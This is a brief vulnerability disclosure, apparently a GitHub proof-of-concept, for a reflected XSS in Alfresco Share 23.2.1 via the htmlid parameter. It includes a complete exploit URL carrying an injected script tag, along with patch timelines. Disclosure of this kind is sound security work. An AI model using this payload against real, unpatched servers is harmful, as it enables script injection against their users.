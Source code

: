 Vulnerability: Reflected XSS

Note: The version and user below are the what was used. Other users and versions may be affected.

Requirements: It is likely the URL will not work unless you replace the GUID following the spacestore with one created in your test environment.

Version: 23.2.1-r96

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: htmlid


https://192.168.1.102/share/service/components/folder-details/folder-metadata?nodeRef=workspace://SpacesStore/32a28673-6bbf-46b2-b533-e6220a94acf0&htmlid=template_x002e_folder-metadata_x002e_folder-details_x0023_default%22%3e%3cscript%3ealert(1)%3c%2fscript%3e


Fix will be in release of ACS 23.3 scheduled for October 2024
Hotfixes for ACS 23.1, 23.2, 7.2.2.x, 7.3.2.x and 7.4.2.x are aimed at being released by the end of June 2024.


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/Alfresco_Reflected_XSS_via_htmlid_parameter.gif?raw=true)
